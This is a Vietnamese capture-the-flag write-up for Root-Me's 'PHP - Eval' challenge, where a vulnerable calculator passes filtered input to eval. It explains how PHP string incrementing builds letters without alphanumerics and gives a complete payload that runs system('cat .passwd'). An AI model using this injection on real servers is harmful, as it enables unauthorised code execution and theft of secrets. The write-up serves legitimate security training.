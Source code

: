# PHP - Eval

**Tên challenge:**  Non-alphanumeric PHP Code

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

**Tác giả challenge:** chmod

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. The flag is in .passwd file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website có giao diện khá đơn giản, chỉ có 1 tính năng Input duy nhất:

![alt text](./images/image.png)

Ngoài ra, ta còn được cung cấp Source Code như sau:
```
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```


Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('print '.$_POST['input'].";");
```
<u>**Giải thích:**</u>
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval(" print 1; system("cat .passwd"); ")
```

Tuy nhiên, ta đã bị filter từ `[ a -> z ]` và `[ A -> Z ]` do đoạn `preg_match` sau xử lý:
```
if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái ?

<u>**Trả lời:**</u>
* Sau khi đọc và tìm hiểu thì tôi tìm ra tài liệu có thể giúp Bypass được điều này: [Link](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
* Cụ thể, ta sẽ sử dụng những ký tự như `$`, `_`, `;`, `.`,... thay cho các chữ cái.
* **VD:** Trong PHP, ta có: `$a = 'Z'` thì khi ta `$a++` => `$a` sẽ trở thành `AA` thay vì là `[` như trong ngôn ngữ C.
* Tương tự nếu: `$a = 'A'` thì khi ta `$a++` => `$a` sẽ thành `B`. Nó chỉ trở thành `AA` khi mà nó mang giá trị `Z` cuối cùng trong bảng chữ cái, khi đó nếu mình tăng tiến `++` 1 giá trị của nó lên thì nó sẽ trở thành `AA`, nếu tiếp tục `++` thì thành `AB`, cứ vậy nối tiếp.

Ví dụ cụ thể hơn ta có 1 đoạn code như sau:
```
<?php

$_=[];

$_=@"$_"; // $_='Array';

$_=$_['!'=='@']; // $_=$_[0];

$___=$_; // A

$__=$_;

$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;

$___.=$__; // AS


?>
```
<u>**Giải thích chi tiết:**</u>
* `$_=[]`: Dòng này dùng để khai báo biến `$_` có giá trị mảng `[]`
* `$_=@"$_"`: Dòng này dùng để biến giá trị mảng `[]` thành chữ `Array`, nghĩa là biến `$_` lúc bấy giờ sẽ có giá trị string là `Array` ( `$_ = "Array"` )
* `$_=$_['!'=='@']`: Dòng này để gán biến `$_` thành giá trị đầu tiên `A` trong chuỗi string `Array`. Nó giống như đoạn code sau đây
```
$mot = "Abc";
$mot = $mot[0]; // $mot = "A";
```
* Thì `['!'=='@']` trong đoạn code trên là so sánh `XOR`, vì 2 thằng khác nhau nên giá trị sẽ trả về 0. Thực ra thì ta cũng có thể để thẳng là `[0]` luôn.
* `$___=$_`: Vì bấy giờ biến `$_` đã mang giá trị `A` nên mình khởi tạo 1 biến mới `$___` để tiếp nhận giá trị của `$_`, nghĩa là lúc này cả 2 biến `$_` và `$___` đều mang giá trị `A`.
* `$__=$_`: Giống như trên, ta khởi tạo 1 biến mới `$__` và gán cho nó giá trị `A` của biến `$_`.
* `$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;`: Đoạn code này là lấy giá trị của biến vừa khởi tạo ở trên rồi tịnh tiến `++` nó 18 lần. Nghĩa là giá trị `A` lúc này được `++` 18 lần là thành `S` => `$__` = `S`
* `$___.=$__`: Đoạn code này là nối đoạn, nó giống với `$a += $b // $a = $a + $b`. Thay vì `+` thì chỗ này nối đoạn là dấu `.` thôi. `$___` mang giá trị `A`, nối đoạn với giá trị `S` của `$__` => `$___` lúc bấy giờ sẽ mang giá trị là `AS`

=> Chỉ cần nắm được phần giải thích trên là ta có thể tự tạo riêng payload của mình.

**B2:** Thử payload `1;SYSTEM(STRTOLOWER("CAT .PASSWD")))`
```
1;$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____("$__________"))
```
Có thể input trực tiếp qua Website hoặc là dùng Burp-suite rồi URL encode để đảm bảo không xảy ra lỗi.

![alt text](./images/image-1.png)

=> Ta đã thành công đọc được file `.passwd`

**Lưu ý:** `1` không nằm trong file `.passwd` nhé. `1` là giá trị `1;` mà `eval()` đã print ra.

